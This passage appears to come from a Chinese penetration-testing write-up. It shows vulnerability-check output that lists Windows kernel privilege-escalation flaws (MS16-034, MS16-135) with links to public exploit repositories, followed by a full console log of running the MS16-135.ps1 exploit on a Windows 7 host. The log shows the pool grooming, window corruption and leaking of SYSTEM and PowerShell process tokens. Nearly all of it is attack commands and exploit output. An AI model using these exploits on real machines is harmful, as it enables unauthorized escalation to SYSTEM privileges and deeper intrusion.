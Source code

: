 ```

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable

Title      : Nessus Agent 6.6.2 - 6.10.3
MSBulletin : N/A
CVEID      : 2017-7199
Link       : https://aspe1337.blogspot.co.uk/2017/04/writeup-of-cve-2017-7199.h
             tml
VulnStatus : Not Vulnerable
```

演示`ms16_135`

```
PS C:\phpstudy_pro\WWW> .\MS16-135.ps1
         _____ _____ ___   ___     ___   ___ ___
        |     |   __|_  | |  _|___|_  | |_  |  _|
        | | | |__   |_| |_| . |___|_| |_|_  |_  |
        |_|_|_|_____|_____|___|   |_____|___|___|


                           [by b33f -> @FuzzySec]

[?] Target is Win 7
[+] Bitmap dimensions: 0x770*0x4

[?] Adjacent large session pool feng shui..
[+] Worker  : FFFFF900C1E52000
[+] Manager : FFFFF900C1E54000
[+] Distance: 0x2000

[?] Creating Window objects
[+] Corrupting child window spmenu
[+] Trying to trigger arbitrary 'Or'..
[+] Trying to trigger arbitrary 'Or'..

[?] Success, reading beyond worker bitmap size!
[+] Old manager bitmap pvScan0: FFFFF900C1E54238
[+] New manager bitmap pvScan0: FFFFF900C1E52050

[>] Leaking SYSTEM _EPROCESS..
[+] _EPROCESS list entry: 0xFFFFF80004116030
[+] SYSTEM _EPROCESS address: 0xFFFFFA800CD3F040
[+] PID: 4
[+] SYSTEM Token: 0xFFFFF8A0000049FB

[>] Leaking current _EPROCESS..
[+] Traversing ActiveProcessLinks list
[+] PowerShell _EPROCESS address: 0xFFFFFA800EEB9150
[+] PID: 3760
[+] PowerShell Token: 0xFFFFF8A0037A1A9A

```
